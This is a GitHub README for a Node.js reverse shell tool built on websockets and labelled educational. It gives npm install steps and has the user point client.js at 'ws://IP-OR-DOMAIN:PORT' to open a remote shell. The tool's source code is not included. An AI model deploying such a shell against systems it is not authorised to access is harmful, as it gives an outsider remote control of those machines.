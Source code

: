 
# Reverse shell using websocket (node)

NodeJS reverse shell script using websocket npm to interact between client & server. Educational purpose only.

## Installation

Use the package manager [npm](https://nodejs.org/en/download/) to install some packages.

```bash
npm install websocket
npm install child_process
npm install http
npm install readline-sync
```

## Usage

edit the last line of client.js by adding your ip adress or using localhost if both of them are on the same network.
```javascript
client.connect('ws://IP-OR-DOMAIN:PORT', 'echo-protocol');
```
editing server.js for the connection port at port variable line :
```javascript
let port = 8080;
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
